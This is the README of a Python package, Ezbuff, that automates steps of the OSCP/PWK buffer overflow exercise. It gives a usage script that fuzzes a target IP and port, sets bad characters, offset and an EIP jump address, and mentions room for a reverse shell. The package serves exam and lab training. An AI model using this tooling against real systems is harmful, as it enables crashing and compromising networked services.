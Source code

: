 # Ezbuff
Ezbuff is a Python package created to make the **2020 PWK buffer overflow** easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their **OSCP** exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip3 install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff.src.overflow import Overflow

def main():
	# Instanstantiate `Overflow` object
	test = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# Change the target IP if running in interactive Python interpreter
	test.targ_ip = "10.10.10.1"

	# Change the target port number if running tests in interactive Python interpreter
	test.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 10
	test.fuzz_interval_seconds = 2

	# Add bad characters to objects list containing bad characters found
	# after sending characters payload.
	test.add_bad_char('\x00', '\x01', '\x02')

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	test.fuzz_increment = 150

	# Fuzz the vulnerable application
	test.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accomodate space for reverse shell!!
	test.num_bytes_crash = 1200

	# Set the offset after running the functions to find offset value
	test.offset = 800

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	test.jump_eip = "\x8f\x35\x4a\x5f"

	# Sending pattern to determine offset
	test.send_pattern()

if __name__ == '__main__':
	main()
```
